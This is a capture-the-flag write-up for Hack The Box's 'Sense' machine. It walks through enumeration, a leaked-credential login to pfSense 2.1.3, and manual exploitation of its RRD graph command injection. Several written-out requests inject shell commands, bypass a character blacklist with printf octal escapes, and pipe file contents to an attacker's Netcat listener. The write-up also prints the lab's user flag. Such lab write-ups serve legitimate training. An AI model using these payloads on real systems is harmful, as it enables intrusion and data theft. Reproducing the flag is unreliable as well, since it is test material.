# Hack The Box - Sense | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** OpenBSD Machine &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.55.184` &nbsp;•&nbsp; **Time taken:** 45 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will be exploiting today is called Sense and it is an easy difficulty OpenBSD machine.

---

## Assessment Overview



---

## What I Learned

- Using file extensions like `.txt` with ffuf to enumerate content when a plain directory scan doesn't return anything useful, which is how I found system-users.txt.
- How to read and deobfuscate a public exploit's Python code so I could understand the command injection and perform it manually instead of just running the script.
- Replacing blacklisted characters like `.` and `/` with `printf` octal escapes stored in environment variables, so I could bypass the input filter and still build file paths.
- Reading a `man ascii` table to find the octal codes for the characters I needed (`.` is 056 and `/` is 057).
- Piping command output back to my own machine with Netcat when the injection was blind and returned no output in the response.

---

## Enumeration with Nmap

We can start an Nmap scan on our target with default scripts of NSE and enumerate service versions too.

```
nmap -sV -sC 10.129.55.184
```



*Figure 1 - Nmap shows two open web ports, HTTP (80) and HTTPS (443).*

It seems we have 2 ports open, and they're both web ports, so it looks like it is going to be a pure web exploit. We can start off by visiting our web page.



*Figure 2 - The site is a pfSense login page and it redirects us to HTTPS.*

Seems like it is a pfSense website as the name suggests, and it has redirected us to HTTPS. We can check out the certificate to see if we have anything useful in there and try a few default credentials.



*Figure 3 - The TLS certificate details only show placeholder organisation information.*

We didn't get much useful information and the default credentials didn't seem to work, so we can now enumerate our web page using ffuf and the directory-list-2.3-medium.txt directory.

---

## Directory Enumeration with ffuf

We tried initially but we didn't get anything useful. Perhaps there is an extension that we're meant to find, so we started off with php and then moved onto txt. After enumerating we found these useful piece of information.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.55.184/FUZZ
```



*Figure 4 - The plain directory scan only returns default folders, nothing useful.*

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.55.184/FUZZ.txt
```



*Figure 5 - Fuzzing with the .txt extension finds system-users.txt, which leaks the username rohit.*

So it turns out the password was pfsense but the username we were looking for was rohit.

---

## Logging into pfSense

When we logged in it seems the only drop down working was Status. We also got the version of pfSense on our main screen, 2.1.3, so we can Google for an exploit. We used searchsploit and found an RCE through command injection. Here we could use this script and just exploit it, but it wouldn't teach us anything so we decided to break down the code and perform it manually.



*Figure 6 - The pfSense dashboard confirms version 2.1.3-RELEASE.*

---

## Finding the Exploit



*Figure 7 - The pfSense 2.1.3 command injection is CVE-2014-4688 in status_rrd_graph_img.php.*

It seems there is a post-login exploit that uses command injection on the RRD graph, and this is available in our drop down menu. So we went to searchsploit to view this exploit, and after breaking it down we can see the exploit runs in the parameter `?database=queues; <command>`.



*Figure 8 - The exploit code shows the injection point in the database parameter of status_rrd_graph_img.php.*

---

## Achieving RCE via Command Injection

So we can intercept and try achieve RCE through Burp Suite. When we tried to run it, it seems it works but we're not getting any output.

```
GET /status_rrd_graph_img.php?database=queues;id
```



*Figure 9 - The injection runs but the response is an image, so we get no command output back.*

So we can pipe this over to Netcat by using `| nc 10.10.15.110 1234` with a listener running.

```
nc -lnvp 1234
```

```
GET /status_rrd_graph_img.php?database=queues;id | nc 10.10.15.110 1234
```



*Figure 10 - Piping the output to Netcat shows uid=0(root), so we already have root.*

It seems we have root access already. Now we can find our user.txt and root.txt, as privilege escalation isn't necessary here.

---

## Bypassing Blacklisted Characters

However when we ran `../../../` it seems we weren't getting a response. This might be because these characters are blacklisted, so we will have to use printf to modify them. If we go to a `man ascii` we can see that `.` is 056 and `/` is 057 so we can try use these instead.



*Figure 11 - man ascii confirms `.` is octal 056 and `/` is octal 057.*

We declared x as the environment variable for `.` and y as the environment variable for `/`.

```
GET /status_rrd_graph_img.php?database=queues;x=$(printf+"\56");y=$(printf+"\57");echo+${y}+|+nc+10.10.15.110+1234 HTTP/1.1
```



*Figure 12 - Echoing the y variable returns `/`, confirming the printf substitution works.*

---

## Reading the Flags

Now with this we can evade the blacklisted characters and read our user.txt and root.txt.

```
GET /status_rrd_graph_img.php?database=queues;x=$(printf+"\56");y=$(printf+"\57");cat+${x}${x}${y}${x}${x}${y}${x}${x}${y}home${y}rohit${y}user.txt+|+nc+10.10.15.110+1234
```



*Figure 13 - Reading user.txt through the printf-based path returns the user flag.*

> Submit the user flag.

**Answer:** `8721327cc232073b40d27d9c17e7348b`

```
GET /status_rrd_graph_img.php?database=queues;x=$(printf+"\56");y=$(printf+"\57");cat+${x}${x}${y}${x}${x}${y}${x}${x}${y}root${y}root.txt+|+nc+10.10.15.110+1234
```

> Submit the root flag.

**Answer:** `see final request (not captured in the notes)`
